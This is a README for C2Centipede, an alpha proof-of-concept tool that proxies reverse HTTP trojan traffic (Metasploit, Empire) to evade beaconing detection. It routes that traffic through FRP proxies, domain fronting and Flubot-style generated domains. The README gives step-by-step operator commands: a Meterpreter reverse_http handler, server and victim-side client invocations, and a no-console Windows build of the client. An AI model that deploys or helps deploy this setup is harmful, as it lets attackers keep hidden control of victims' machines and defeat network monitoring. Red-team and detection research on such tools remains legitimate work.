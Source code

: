 # C2Centipede (alpha)

## What is C2Centipede?
C2Centipede is a Proof of Concept proxy for reverse HTTP shell tools (like metasploit or empire) to evade beaconing detection by 1)reducing the beaconing 2)route the C2 communications from the trojan through different servers, currently using FRP reverse proxies or multiple Domain Fronts.

## How does it work?
There are two basic components of C2Centipede, client and server. The client is executed in the victim machine along the trojan (e.g. reverse http meterpreter) and receives the trojan's requests. The client will be in charge of faking answers to the trojan to keep it alive and choosing the route the trojan beacon should follow. The original HTTP request from the trojan is wrapped and encrypted using a Fernet symmetric key.

The server component receives the requests from the c2centipede client, decrypts them and sends them to the handler (Metasploit http handler, empire, etc), sending the answer back to the c2centipede client, along with it's own commands that affect the behaviour of the client. The operator can modify the behaviour of the client on the fly, for example by decreasing or increasing the number of fake answers to the trojan, or adding new routes the client can use to communicate with the server. The control data for C2Centipede is piggybacked on the trojans requests, so there is no additional "noise" in the network.

Additionally there is a GUI for the operator.

## Setup
git clone https://github.com/deepsight/C2Centipede
cd C2Centipede
git clone https://github.com/fatedier/frp


## Sample commands

### On the server
The server uses python3

1) Run your handler /msfconsole -x "use exploit/multi/handler;set payload python/meterpreter_reverse_http;set exitonsession false; set lport 8888; set lhost 0.0.0.0; run -j
You can use any reverse HTTP payload, not just python.


2) python3 c2c_server.py -p 9093 -d 127.0.0.1:8888 -a lalala:lelele -b -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=

-p port to listen to
-d destination of the packages (This would be your MSF or Empire handler address)
-a authentication for the c2centipede server, the operator needs to know these to send commands to the c2centipede server.
-b beep (for debugging, you can listen to the beacons of your trojan)
-f Fernet key, symmetric shared with the client. (if not specified it will generate a new one)


3)Set your RFP proxies and/or CDNs.


### On the victim machine
The client uses python2 because _reasons_

1) python2 c2c_client.py -p 2233 -b 127.0.0.1 -s 127.0.0.1:9093 -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=
-p port where the client listens to
-b bind to this interface
-s server addresses (direct connection, frp proxy or domain fronted host), you can add as many as you wish (or use -t to use a textfile with newline separated server addresses)
-f fernet symmetric key as specified on the server component.

Optionally, you can compile the client for windows using pyinstaller
wine pyinstaller.exe --onefile --noconsole c2c_client.py

2)Generate your meterpreter, empire or other trojan pointing to localhost and the port specified on the -p argument (in this case 2233)

3)Run the trojan

## Supported C2 routes

The C2 communication can be routed through many hosts. They can be setup when executing the c2centipede client with the -s or -t flags. 

Direct or connections through HTTP proxies (like FRP) can be specified as ip:port e.g. "-s 123.123.123.123:2222 222.333.45.23:80"

Domain fronting can be specified in the following format: -s fronted{hightrustdomain.com{evilhost.yourcdnprovider.com fronted{anotherdomain.com{evilhost.yourcdnprovider.com fronted{anotherhightrustdomain.com{evilhost.anothercdn.com

Flubot DGA can be used to bootstrap your C2 connection, the syntax is flubot{seed{numberofdomains{port
This is based on this great post: https://securityblog.switch.ch/2021/06/19/android-flubot-enters-switzerland/


## TODO
Treat this as alpha quality code, it's meant to be a PoC for beaconing evasion.
I have tested very basic functionality for doing C2 comms through webdav, so this might come later.
